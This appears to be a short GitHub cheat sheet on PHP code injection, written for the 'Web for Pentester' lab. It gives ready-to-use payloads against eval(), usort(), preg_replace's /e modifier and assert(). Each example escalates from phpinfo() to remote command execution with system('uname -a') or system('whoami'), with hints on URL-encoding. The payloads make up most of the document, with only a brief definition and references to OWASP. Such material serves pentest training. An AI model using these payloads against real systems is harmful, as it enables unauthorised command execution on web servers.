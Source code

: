 ## Code Injection
Code Injection is the general term for attack types which consist of injecting code that is then interpreted/executed by the application. This type of attack exploits poor handling of untrusted data. These types of attacks are usually made possible due to a lack of proper input/output data validation

### Web for Penterster
### example 1
` eval() - evaluates a string as PHP code ` <br>
**payload**- " .phpinfo(). "  <br>
**payload**- " . hacker".system('uname -a');#       - change to RCE  & url encode need 


### example 2
` usort() - Sort an array by values using a user-defined comparison function ` <br>
**payload**-example2.php?order=id,system('whoami') <br>
**payload**- example2.php?order=id);}system('whoami');#      - change to RCE  & url encode need 


### example 3
` preg_replace() — Perform a regular expression search and replace `<br>
**payload** - example3.php?new=phpinfo()&pattern=/lamer/e&base=Hello lamer"  <br>
**payload** - example3.php?new=system('uname -a')&pattern=/lamer/e&base=Hello lamer         - change to RCE


### example 4
` assert() - Checks if assertion is FALSE ` <br>
**payload** - example4.php?name=hacker'.phpinfo().' <br>
**payload** - example4.php?name=hacker'.system('uname -a').'


Ref : 
-[LOL security](https://www.youtube.com/channel/UCQm58nOLArHOfC5dF9zCxHg)
-[OWASP](https://owasp.org/www-community/attacks/Code_Injection)
-[php.net](https://www.php.net)

